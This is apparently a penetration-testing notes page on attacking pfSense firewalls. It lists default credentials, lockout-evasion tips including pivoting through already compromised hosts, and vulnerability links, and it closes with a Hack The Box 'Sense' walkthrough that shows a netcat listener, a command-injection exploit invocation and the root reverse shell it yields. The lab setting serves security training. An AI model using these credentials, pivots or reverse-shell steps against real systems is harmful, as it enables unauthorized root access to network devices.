

# pfSense
pfSense is an open source firewall and router distribution based on FreeBSD.
## Tips
• Default credentials are
admin / pfsense• Usernames (in my experience) only work if lowercase
• Login is (most likely) only available available over HTTPS
• The default setup is configured to lock you out for 24 hours after 15 failed login attempts - so it's not often worth brute-forcing
◇ If you get logged out, try accessing the box from another host
◇ If you're on a network where you've already pwned other systems, ssh port forward your traffic through one of those pwned machines so that you can continue pentesting pfsense despite being locked out -
https://youtu.be/d2nVDoVr0jE?t=449•
/changelog.txt might tell you something interesting
• Directory bruteforce for
.php, and
.txt extensions
## Exploits
There are lots of cross-site request forgery exploits,
as well as lots of authenticated command injection exploits.
Here's a good set of blog posts on pfSense vulnerabilities:
https://www.proteansec.com/linux/pfsense-vulnerabilities-part-1-xss/https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/https://www.proteansec.com/linux/pfsense-vulnerabilities-part-3-local-file-inclusion/https://www.proteansec.com/linux/pfsense-vulnerabilities-part-4-directory-traversal/### pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
https://www.exploit-db.com/exploits/43560#### Example from hackthebox SenseStart a listener on your attacking machine to receive the reverse shell
root@gotham:~/ctf/sense# nc -lvnp 9001
listening on [any] 9001 ...
Run the exploit.
Details on how to run it are included in the script.
root@gotham:~/ctf/sense/443# python3 cmdinjection.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 9001 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
You should receive a shell on your listener :)
[...]
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.60] 33493
sh: cant access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# ls -l /home
total 8
drwxrwxr-x 2 root operator 512 Oct 14 2017 .snap
drwxr-xr-x 2 rohit nobody 512 Oct 14 2017 rohit